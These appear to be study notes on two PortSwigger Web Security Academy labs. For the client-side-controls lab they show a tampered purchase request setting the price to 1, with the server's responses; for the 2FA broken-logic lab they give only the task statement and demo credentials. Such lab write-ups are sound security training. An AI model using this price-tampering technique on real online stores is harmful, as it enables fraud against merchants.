 # 1. Lab: [Excessive trust in client-side controls](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-excessive-trust-in-client-side-controls)

This lab doesn't adequately **validate user input**. You can exploit a logic flaw in its **purchasing workflow** to _buy items for an unintended price_. To solve the lab, buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: wiener:peter

find:

```js
change and send:
productId=1&redir=PRODUCT&quantity=1&price=1
```

response:

```js
HTTP/2 302 Found
Location: /product?productId=1
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

go to => Follow direction in Burp

response:

```js
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 8292
```

# 2. [Lab: 2FA broken logic](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic)

This lab's _two-factor authentication_ is vulnerable due to its flawed logic. To solve the lab, access **Carlos's account page**.

Your credentials: wiener:peter
Victim's username: carlos
You also have **access to the email server to receive your 2FA** verification code
